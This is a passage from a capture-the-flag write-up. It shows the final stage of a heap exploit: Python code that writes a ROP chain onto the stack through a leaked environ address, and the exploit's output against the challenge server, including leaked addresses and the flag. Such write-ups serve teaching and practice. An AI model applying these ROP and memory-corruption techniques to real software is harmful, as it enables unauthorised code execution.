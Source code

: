 Finally we can write the ROP chain to the stack, starting at the return pointer of main, and send an illegal menu option to return from the function to the ROP chain:

```python
payload = bytes(rop.chain())

for IDX,WAT in enumerate([ payload[i:i+16] for i in range(0,len(payload),16) ]):
    WriteAdr(environ - 0x120 + 16*IDX, WAT)

io.sendlineafter(b'> ', b'666');
```

Running it on the remote instance gives us som nice output:
```
[+] Opening connection to io.ept.gg on port 30002: Done
[*] leek: 0x55ebae805008
[*] exe: 0x55ebae801000
[*] libc @ 0x7f5a72bb1000
[*] envi @ 0x7fffb1069428
[*] Loaded 218 cached gadgets for './libc-2.35.so'
[*] Switching to interactive mode
out of range.
EPT{fake_h3ap_challs_4r3_b3st_h3ap_challs}
``` 

Fake heap challs are indeed the best heap challs!

This challenge was released at 10:00, and flag submitted at 11:47 for :fire: First Blood! :fire: 


